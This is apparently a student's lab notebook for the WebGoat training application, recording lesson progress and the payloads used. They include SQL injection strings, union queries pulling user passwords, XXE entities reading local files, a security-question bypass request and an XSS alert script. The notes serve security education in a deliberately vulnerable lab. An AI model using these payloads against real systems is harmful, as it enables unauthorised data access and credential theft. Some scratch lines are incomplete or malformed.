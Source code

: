 # WebGoat
## Francesco Mauri
---
## Introduction [x]
### WebGoat [x]
* Read
### WebWolf [x]
* Install Webwolf, send email, write code from mail.
* Reset password, go to Webwolf get code
## General [x]
### Http basics [x]
* write something
* intercept HTTP, get header and read the answer
### Http Proxies [x]
* Intercept package, modify it to suite the task, make sure to modify properly the POST
---
## Injection Flaws [ ]
### SQL Injeciton [x]
```SQL
smith' or '1' = '1
```
```SQL
1 or true
```
### SQL Injection advanced [ ]
```SQL
asd' or true; select * from user_system_data; --
```
```SQL
work in progress
```
### SQL Injeciton mitigation
```SQL
1' or true order by (case when (hostname = 'webgoat-prd') hostname else status;
```
* Solution: 192.168.4.0
### XXE
#### 3
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 4
* Specify content type to be xml
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 7
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:////home/USER/.webgoat/XXE/secret.txt" >]>
<comment>
  <text>a&xxe;</text>
</comment>
```
---
## Authentication Flaws
### Authentication Bypass
### JWT tokens (Under development)
## Coss-Site Scripting (XSS)
### Cross Site Scripting
## Access Control Flaws
### Insecure Direct Object References
### Missing Function Level Access Control
## Insecure Communication
### Insecure Login
## Request Forgeries
### Cross-Site Request Forgeries
## Vulnerable Components - A9
### Vulnerable Components
## Client side
### Client side filtering
### Bypass front-end restriction
### HTML tampering
## Challenges
### WebGoat Challenge
### Admin lost password
### Get it for free
### Photo comments
### Voting
### Without password
### Creating a new account
### Admin Password
### Without account
### Changing password
```sql
asd' or true union SELECT * FROM user_system_data;
asd' or true FULL OUTER JOIN user_system_data as usd ON USERID = usd.USERID;
```
---
asd' or true; select * from user_system_data; --
dave
---
user_system_data
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE'
SELECT TABLE_NAME FROM <DATABASE_NAME>.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'
SELECT TABLE_NAME FROM user_system_data.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'
Smith' or '1'=1 union select userid, password, password, password from user_system_data'
Smith' or '1'=1 union select userid, password, password, password from user_system_data --
select * from users order by (case when (true) then lastname else firstname)
---
# 2FA
(secQuestion0=aORtrue)&(secQuestion1=aORtrue)&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746
---
#XSS
<script>alert('my javascript here')</script>
---
proxy
/WebGoat/HttpProxies/intercept-request?changeMe=Requests%20are%20tampered%20easily HTTP/1.1
